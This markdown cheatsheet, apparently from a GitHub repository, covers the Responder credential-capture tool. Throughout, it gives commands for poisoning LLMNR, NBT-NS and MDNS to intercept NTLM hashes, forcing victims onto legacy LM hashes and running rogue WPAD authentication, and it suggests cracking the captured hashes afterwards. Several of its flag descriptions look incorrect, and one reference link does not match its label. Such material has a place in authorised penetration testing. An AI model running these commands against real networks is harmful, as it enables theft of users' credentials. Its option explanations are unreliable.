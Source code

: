 #Tool
# Responder Cheatsheet 🕵️‍♂️🔗

Welcome to the **Responder Cheatsheet**! Responder is a powerful tool used for capturing network credentials and performing Man-in-the-Middle (MITM) attacks in internal networks. This guide will help you unleash Responder’s full potential! 🚀

---

## 🌟 What is Responder?
**Responder** is a tool for exploiting network services like LLMNR, NBT-NS, and MDNS to intercept network authentication requests. It is commonly used for network penetration testing.

### 🛠 Features:
- Capture NTLM hashes.
- Perform MITM attacks.
- Redirect SMB and HTTP authentication requests.
- Lightweight and easy to use.

---

## 🧰 Common Commands

### 🔍 Start Responder
```bash
sudo responder -I eth0
```
Start Responder on a specific network interface.

### 📡 Enable Specific Services
```bash
sudo responder -I eth0 -w -r -f
```
Enable WPAD, rogue authentication, and fingerprinting services.

### 🔒 Disable Specific Services
```bash
sudo responder -I eth0 -dw
```
Disable WPAD while running Responder.

### 📜 Save Logs to a Custom Directory
```bash
sudo responder -I eth0 -l /path/to/logs
```
Specify a custom directory to save log files.

---

## ⚙️ Advanced Usage

### 🌐 Analyze Network Traffic Only
```bash
sudo responder -I eth0 -A
```
Run Responder in Analyze mode to passively monitor traffic.

### 🚀 Redirect Authentication Requests
```bash
sudo responder -I eth0 --lm
```
Force victims to authenticate using legacy LM hashes.

### 📂 Specify Custom Responder Config File
```bash
sudo responder -I eth0 -c /path/to/Responder.conf
```
Use a custom configuration file for advanced customization.

### 🧹 Clear Log Files
```bash
sudo responder -I eth0 -F
```
Delete all old log files before starting.

---

## 📋 Handy Options

| Option          | Description                                             |
|-----------------|---------------------------------------------------------|
| `-I`            | Specify the network interface to listen on              |
| `-A`            | Analyze mode (no rogue responses)                      |
| `-w`            | Enable WPAD rogue authentication                       |
| `-r`            | Enable rogue authentication                            |
| `-f`            | Fingerprint hosts                                      |
| `-d`            | Disable specific services (e.g., WPAD)                 |
| `-c`            | Specify custom Responder config file                   |
| `-F`            | Clear log files                                        |
| `-l`            | Save logs to a specific directory                      |
| `--lm`          | Force LM authentication                                |

---

## 🌐 Example Scenarios

### Scenario 1: Basic Credential Capture
```bash
sudo responder -I eth0
```
Intercept and capture credentials on the local network.

### Scenario 2: Passive Traffic Analysis
```bash
sudo responder -I eth0 -A
```
Analyze network traffic without sending rogue responses.

### Scenario 3: Custom Configuration
```bash
sudo responder -I eth0 -c /path/to/custom.conf
```
Run Responder with a custom configuration file.

---

## 🚀 Pro Tips

### 1️⃣ Combine with Crack Tools
After capturing hashes, use tools like **Hashcat** or **John the Ripper** to crack them.

### 2️⃣ Disable Unnecessary Services
Reduce noise by disabling unused Responder services, such as WPAD (`-dw`).

### 3️⃣ Automate Responder Logs
Automate the parsing of Responder logs to streamline post-capture analysis.

---

## 📚 References
- [Responder GitHub Repository](https://github.com/SpiderLabs/Responder)
- [LLMNR and NBT-NS Exploitation Guide](https://owasp.org/www-project-vulnerable-web-applications-directory/)

---

✨ **Copy, paste, and dominate network recon with Responder!** ✨
